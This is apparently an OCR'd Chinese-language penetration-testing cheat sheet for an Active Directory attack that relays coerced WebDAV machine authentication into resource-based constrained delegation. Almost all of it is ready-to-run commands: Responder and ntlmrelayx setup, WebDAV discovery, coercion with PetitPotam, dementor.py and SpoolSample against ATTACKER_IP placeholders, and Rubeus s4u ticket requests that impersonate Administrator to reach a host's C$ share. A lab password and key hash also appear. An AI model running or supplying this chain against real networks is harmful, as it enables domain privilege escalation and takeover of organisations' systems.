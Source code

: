 	可以强制机器帐户对主机进行身份验证，并将其与基于资源的约束委派结合以获得更高的访问权限。它允许攻击者通过 HTTP 而不是 SMB 进行身份验证
	要求：WebClient服务
	禁用 HTTP
	>sudo vi /usr/share/responder/Responder.conf
	生成一个Windows机器名：sudo responder -I eth0，例如：WIN-UBNW4FI3AP0
	准备针对 DC 的 RBCD：
	>python3 ntlmrelayx.py -t ldaps://dc --delegate-access -smb2support
	发现 WebDAV 服务
	>webclientservicescanner 'domain.local'/'user':'password'@'machine'
	>crackmapexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav
	>GetWebDAVStatus.exe 'machine'
	触发身份验证以中继到我们的 nltmrelayx: PetitPotam.exe WIN-UBNW4FI3AP0@80/test.txt 10.0.0.4，必须使用 FQDN 或完整的 netbios 名称指定侦听器主机，例如logger.domain.local@80/test.txt. 指定 IP 会导致匿名身份验证，而不是系统。
	dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
	SpoolSample.exe "ATTACKER_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

	#PetitPotam
	Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
	Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
	PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "ATTACKER_IP"
	使用创建的帐户请求服务票证：
	.\Rubeus.exe hash /domain:purple.lab /user:WVLFLLKZ$ /password:'iUAL)l<i$;UzD7W'
	.\Rubeus.exe s4u /user:WVLFLLKZ$ /aes256:E0B3D87B512C218D38FAFDBD8A2EC55C83044FD24B6D740140C329F248992D8F /impersonateuser:Administrator /msdsspn:host/pc1.purple.lab /altservice:cifs /nowrap /ptt
	ls \\PC1.purple.lab\c$
	# IP of PC1: 10.0.0.4